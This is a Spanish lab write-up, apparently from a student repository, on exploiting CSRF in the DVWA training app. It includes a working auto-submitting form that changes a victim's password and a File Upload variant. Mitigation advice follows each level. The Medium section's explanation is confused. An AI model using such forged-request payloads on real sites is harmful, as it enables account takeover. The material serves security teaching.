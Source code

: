 # 🛡️ Práctica: Cross-Site Request Forgery (CSRF) en DVWA

---

# 📖 Introducción

**Cross-Site Request Forgery (CSRF)** es una vulnerabilidad que permite a un atacante realizar acciones no autorizadas en nombre de un usuario autenticado.  
Esto se logra haciendo que el navegador de la víctima envíe solicitudes maliciosas sin su consentimiento, aprovechando que ya está autenticada en la aplicación web objetivo.

Durante esta práctica, se analiza cómo explotar esta vulnerabilidad en DVWA en los niveles de seguridad **Low** y **Medium**.

---

# 🔷 Nivel de Seguridad: Low

## 📌 Descripción

En este nivel, DVWA no implementa ningún tipo de protección CSRF.  
La aplicación acepta cualquier solicitud POST válida, incluso si proviene de otro dominio o archivo local.


## 🛠️ Procedimiento

### 1. Creación del archivo malicioso

Se crea un archivo `csrf.html` con el siguiente contenido:

```html
<form action="http://127.0.0.1/DVWA/vulnerabilities/csrf/" method="POST">
  <input type="hidden" name="password_new" value="pass" />
  <input type="hidden" name="password_conf" value="pass" />
  <input type="hidden" name="change" value="change" />
  <input type="submit" value="Submit request" />
</form>
<script>
  document.forms[0].submit();
</script>
```

Este archivo realiza un cambio de contraseña de forma automática cuando la víctima lo visita.


### 2. Servir el archivo con un servidor HTTP

```bash
python3 -m http.server 8080
```

El atacante puede enviar este enlace a la víctima. Si la víctima está autenticada, su contraseña será cambiada sin su conocimiento.


📸 **Captura de la ejecución de `csrf.html` y envío automático del formulario:**


![CSRF_low](https://github.com/XaviGimReu/PPS-10836126/blob/main/template-main/RA3/RA3_2/assets/Cross_Site_Request_Forgery(CSRF)%20-%20low_1.png)

✅ Esto demuestra que no existe ninguna validación de origen o token para prevenir el ataque CSRF.


## 📋 Resumen

- El ataque CSRF es exitoso debido a la falta total de protección.

- El servidor acepta cualquier solicitud POST con los campos correctos.


## 🛡️ Medidas de Mitigación

- Incluir un **token CSRF único** y **aleatorio** en todos los formularios sensibles.

- Validar el **referer/origin** de las solicitudes entrantes.

- Utilizar cabeceras específicas (como `SameSite`) para cookies.

---

# 🔶 Nivel de Seguridad: Medium

## 📌 Descripción

En este nivel, DVWA introduce una medida adicional de seguridad: **restricción de tipo MIME** en las cargas, que en este caso fue usada para simular el ataque.

El atacante intenta subir un archivo `.php` con contenido malicioso que ejecuta la misma acción de cambio de contraseña.


## 🛠️ Procedimiento

### 1. Renombrar el archivo malicioso

Se renombra `csrf.html` como `csrf.php` para que pueda ser ejecutado desde el servidor al cargarlo:

```bash
mv csrf.html csrf.php
```

### 2. Servir el archivo con un servidor HTTP

Se accede al apartado de **File Upload** y se sube `csrf.php`.

DVWA en nivel Medium **permite la carga del archivo PHP**, ejecutándolo al acceder a la URL generada.



📸 **Captura tras la carga del archivo PHP malicioso:**


![CSRF_med](https://github.com/XaviGimReu/PPS-10836126/blob/main/template-main/RA3/RA3_2/assets/Cross_Site_Request_Forgery(CSRF)%20-%20med_1.png)

✅ Esto demuestra que, aunque la protección directa contra CSRF podría haber mejorado, **la ejecución del script desde un archivo externo sigue siendo posible** al combinarlo con vulnerabilidades como File Upload.


## 📋 Resumen

- El sistema sigue siendo vulnerable mediante la combinación de CSRF y File Upload.

- La ejecución del archivo malicioso desde el servidor causa el cambio de contraseña automáticamente.


## 🛡️ Medidas de Mitigación (recomendadas adicionales)

- Restringir la carga de archivos únicamente a tipos MIME seguros (por ejemplo, imágenes).

- Evitar que se ejecuten archivos subidos desde rutas públicas.

- Aplicar validaciones de tokens CSRF y cookies con política `SameSite=strict`.


---

## 📬 Referencias

**[Brute Force](https://github.com/XaviGimReu/PPS-10836126/tree/main/template-main/RA3/RA3_2/Brute%20Force)**&nbsp;&nbsp;&nbsp; | &nbsp;&nbsp;&nbsp;
**[Command Injection](https://github.com/XaviGimReu/PPS-10836126/tree/main/template-main/RA3/RA3_2/Command%20Injection)**&nbsp;&nbsp;&nbsp; | &nbsp;&nbsp;&nbsp;
**[Content Secutiry Policy (CSP) Bypass](https://github.com/XaviGimReu/PPS-10836126/tree/main/template-main/RA3/RA3_2/Content%20Security%20Policy%20(CSP)%20Bypass)**&nbsp;&nbsp;&nbsp; | &nbsp;&nbsp;&nbsp;
**[Cross-Site Scripting (XSS)](https://github.com/XaviGimReu/PPS-10836126/tree/main/template-main/RA3/RA3_2/Cross-Site%20Scripting%20(XSS))**&nbsp;&nbsp;&nbsp; | &nbsp;&nbsp;&nbsp;
**[SQL Injection](https://github.com/XaviGimReu/PPS-10836126/tree/main/template-main/RA3/RA3_2/SQL%20Injection)**&nbsp;&nbsp;&nbsp; | &nbsp;&nbsp;&nbsp;
**[Weak Session IDs](https://github.com/XaviGimReu/PPS-10836126/tree/main/template-main/RA3/RA3_2/Weak%20Session%20IDs)**

---
